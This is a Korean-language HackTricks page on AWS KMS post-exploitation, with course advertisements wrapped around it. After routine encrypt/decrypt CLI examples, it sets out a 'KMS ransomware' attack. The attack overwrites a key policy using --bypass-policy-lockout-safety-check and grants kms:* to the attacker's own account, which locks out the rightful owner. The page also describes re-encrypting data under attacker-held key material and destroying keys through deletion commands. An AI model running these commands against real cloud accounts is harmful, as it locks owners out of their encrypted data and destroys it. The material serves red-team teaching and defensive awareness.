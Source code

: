 # AWS - KMS 포스트 익스플로이테이션

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## KMS

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 정보 암호화/복호화

`fileb://` 및 `file://`는 AWS CLI 명령에서 로컬 파일의 경로를 지정하는 데 사용되는 URI 스킴입니다:

* `fileb://:` 이진 모드로 파일을 읽습니다. 일반적으로 비텍스트 파일에 사용됩니다.
* `file://:` 텍스트 모드로 파일을 읽습니다. 일반적으로 특별한 인코딩 요구 사항이 없는 일반 텍스트 파일, 스크립트 또는 JSON에 사용됩니다.

{% hint style="success" %}
파일 내의 데이터를 복호화하려면 파일이 base64 인코딩된 데이터가 아닌 이진 데이터를 포함해야 합니다. (fileb://)
{% endhint %}

* **대칭** 키 사용
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **비대칭** 키 사용:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS 랜섬웨어

KMS에 대한 권한이 있는 공격자는 키의 KMS 정책을 수정하고 **자신의 계정에 대한 액세스를 부여**하여 정당한 계정에 부여된 액세스를 제거할 수 있습니다.

그런 다음, 정당한 계정 사용자는 해당 키로 암호화된 서비스의 정보에 접근할 수 없게 되어, 계정에 대한 쉽지만 효과적인 랜섬웨어를 생성하게 됩니다.

{% hint style="warning" %}
**AWS 관리 키는** 이 공격의 영향을 받지 않으며, **고객 관리 키만** 영향을 받습니다.

또한 **`--bypass-policy-lockout-safety-check`** 매개변수를 사용해야 한다는 점에 유의하십시오(웹 콘솔에서 이 옵션이 없으면 이 공격은 CLI에서만 가능함).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
정책을 변경하고 외부 계정에만 액세스를 부여한 후, 이 외부 계정에서 **원래 계정에 대한 액세스를 다시 부여하는 새로운 정책을 설정하려고 하면, 할 수 없습니다**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### 일반 KMS 랜섬웨어

#### 글로벌 KMS 랜섬웨어

글로벌 KMS 랜섬웨어를 수행하는 또 다른 방법이 있으며, 다음 단계를 포함합니다:

* 공격자가 가져온 **키 자료로 새로운 키를 생성합니다**
* **이전 버전으로 암호화된 오래된 데이터를** 새로운 키로 **재암호화합니다**.
* **KMS 키를 삭제합니다**
* 이제 원래 키 자료를 가진 공격자만 암호화된 데이터를 복호화할 수 있습니다.

### 키 파괴
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS는 이제 **이전 작업이 교차 계정에서 수행되는 것을 방지합니다:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
